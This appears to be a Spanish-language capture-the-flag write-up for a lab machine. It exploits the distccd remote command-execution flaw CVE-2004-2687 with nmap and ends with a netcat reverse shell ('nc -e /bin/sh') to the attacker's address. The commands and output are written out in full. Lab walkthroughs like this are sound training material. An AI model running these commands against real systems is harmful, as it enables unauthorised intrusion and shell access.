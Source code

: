 ```shell
nmap -p 3632 -sCV 10.10.10.3
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-08 03:21 CEST
Nmap scan report for 10.10.10.3
Host is up (0.038s latency).

PORT     STATE SERVICE VERSION
3632/tcp open  distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

Nos descargamos el siguiente script .nse

```shell
wget https://svn.nmap.org/nmap/scripts/distcc-cve2004-2687.nse -O /usr/share/nmap/scripts/distcc-exec.nse
```

Vemos que es vulnerable y podemos ejecutar comandos

```shell
> nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='id'"

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-exec: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|_      https://distcc.github.io/security.html
```

Hacemos una reverse shell

```shell
> nc -lvnp 443 # En otra ventana
```

```shell
> nmap -p 3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/sh 10.10.14.2 443'"
```

```shell
> nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 60442
whoami
daemon
hostname
lame
```
